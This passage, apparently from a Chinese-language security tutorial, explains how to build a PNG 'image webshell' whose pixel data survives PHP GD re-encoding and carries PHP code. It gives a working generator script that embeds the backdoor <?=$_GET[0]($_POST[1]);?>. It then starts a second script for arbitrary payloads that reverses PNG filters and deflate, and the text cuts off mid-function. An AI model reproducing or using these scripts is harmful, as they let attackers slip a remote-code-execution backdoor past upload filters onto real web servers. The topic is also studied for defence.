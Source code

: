 ## 构造exp图片

国外大佬提供了一个脚本如下：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```

**但是该脚本生成的payload是固定的且为`<?=$_GET[0]($_POST[1]);?>`**，这段代码在无法在高版本php中作为后门存在的。所以我们能否制作一个payload任意的图片马？这里我经过调试和看文档，制作了一个可以插入任意Payload的php脚本。

```php
<?php 
/* cX<?PHP 不可取消 但可以替换为c<?=
   ?>X<0x00><0x00> 不可删除。*/
$a='cX<?PHP FILE_PUT_CONTENTS();?>X'.urldecode('%00').urldecode('%00');

$payload_ascii='';
for($i=0;$i<strlen($a);$i++){
	$payload_ascii.=bin2hex($a[$i]);
}

$payload_hex=bin2hex(gzinflate(hex2bin($payload_ascii)));

// echo $payload_hex."\n";
preg_match_all('/[a-z0-9]{2}/', $payload_hex, $matches);

$blist=[];

foreach($matches[0] as $key => $value){
	$blist[$key]=base_convert($value, 16, 10);
}

function filter1($blist){
	for($i=0; $i<(count($blist)-3);$i++){
		$blist[$i+3] = ($blist[$i+3] + $blist[$i]) %256;
	}
	return array_values($blist);
}

function filter3($blist){
	for($i=0; $i<(count($blist)-3);$i++){
```